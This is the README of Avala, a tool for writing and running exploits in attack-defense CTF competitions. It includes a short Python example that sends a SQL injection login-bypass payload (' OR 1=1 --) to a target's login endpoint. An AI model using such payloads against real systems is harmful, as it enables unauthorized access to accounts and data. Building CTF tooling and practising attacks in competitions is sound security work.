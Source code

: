 # ⛰️ Avala — Develop and run exploits rapidly in A/D

<img src="https://raw.githubusercontent.com/dusanlazic/avala/refs/heads/develop/docs/docs/assets/logo.svg" width="300">

**Avala** is a specialized tool built for rapid developing, testing, running and monitoring exploits in attack-defense CTF competitions. The goal of Avala is to take the technical burden off the team players, enabling them to focus on writing exploits and patching vulnerabilities.

```py
from avala import exploit
import json
import requests


@exploit(service="foobar")
def attack(target: str, flag_ids: str):
    url = f"http://{target}:5000/login"
    username = json.loads(flag_ids)["username"]

    payload = {"username": username, "password": "' OR 1=1 --"}
    response = requests.post(url, json=payload)

    return response.text
```

The development of Avala was heavily influenced by the practical experiences and valuable insights gathered by the **Serbian National ECSC Team** 🇷🇸 who utilized the tool in many A/D competitions.

## Documentation

Documentation is available at [lazicdusan.com/avala](https://lazicdusan.com/avala).
